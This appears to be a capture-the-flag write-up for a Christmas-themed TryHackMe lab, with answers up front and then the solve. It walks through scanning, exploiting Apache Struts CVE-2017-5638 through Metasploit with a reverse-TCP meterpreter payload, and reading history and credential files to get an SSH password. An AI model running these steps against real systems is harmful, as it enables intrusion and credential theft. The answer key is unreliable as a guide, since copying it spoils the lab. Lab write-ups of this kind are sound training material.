


## Introduction

> Hi Lindsey here. I've been a great Elf all year, but there was one incident and now I think I'm on Santa's naughty list.  
> What? You didn't think us elves got presents too? Well we do and we get first pick of the pressies!  
> Can you help me hack into Santa's system that keeps track of the naughty and nice people to see if I am on it?

> Check out this [blog post](./Supporting_Doc.html) to help you on this task.

## Questions

> 1) Compromise the web server using Metasploit. What is flag1?

td:lr Answer: **THM{3ad96bb13ec963a5ca4cb99302b37e12}**

> 2) Now you've compromised the web server, get onto the main system. What is Santa's SSH password?

td:lr Answer: **rudolphrednosedreindeer**

> 3) Who is on line 148 of the naughty list?

td:lr Answer: **Melisa Vanhoose**

> 4) Who is on line 52 of the nice list?

td:lr Answer: **Lindsey Gaffney**

===============================================================================

First let's deploy the machine and get ourselves VPN-ed into the THM network.  
once the machine is deployed, we need to do a nmap scan for open ports and their server versions:

`nmap <ip> -T4 ` - will reveal open ports 22, 80, 111  
`nmap <ip> -T4 -p80 -A` - will reveal Apache Tomcat/Coyote JSP engine 1.1

Apache Tomcat/Coyote JSP enginer 1.1 points to Struts 2 framework, which has a RCE vulnerability for Apache Struts versions 2.1.2 - 2.3.3 and Struts 2.5 - 2.5.12.

To confirm our finding, we can use nikto:

`nikto -h <ip>`

Proceed to find exploit for CVE-2017-5638:  
[Apache Struts Jakarta Multipart Parser OGNL Injection](https://www.rapid7.com/db/modules/exploit/multi/http/struts2_content_type_ognl)

We can use the above exploit from metasploit:  
`use exploit/multi/http/struts2_content_type_ognl`  
`set RHOSTS <IP>`  
`set RPORT 80`  
`set TARGETURI /showcase.action`  
`set PAYLOAD linux/x86/meterpreter/reverse_tcp`  
`set LHOST <own machine IP>`  
`exploit`

we will get meterpreter session open:  
`cat /root/.bash_history` --will allow us to find where the flag is  
`cd /usr/local/tomcat/webapps/ROOT`  
`cat ThisIsFlag1.txt`  
Will get us the flag: **THM{3ad96bb13ec963a5ca4cb99302b37e12}**

From the `.bash_history` we can also find where the santa's SSH password is:
`cd /home/santa`  
`cat ssh-creds.txt`  
Will get us Santa's SSH password: **rudolphrednosedreindeer**

For #3, we need to SSH into the machine using Santa's credentials:  
`ssh santa@ip`  - password: rudolphrednosedreindeer
`cat naughty_list.txt -n | grep 148`  
Will get us the answer: **Melisa Vanhoose**

`cat nice_list.txt -n | grep 52`
Will get us the answer: **Lindsey Gaffney**

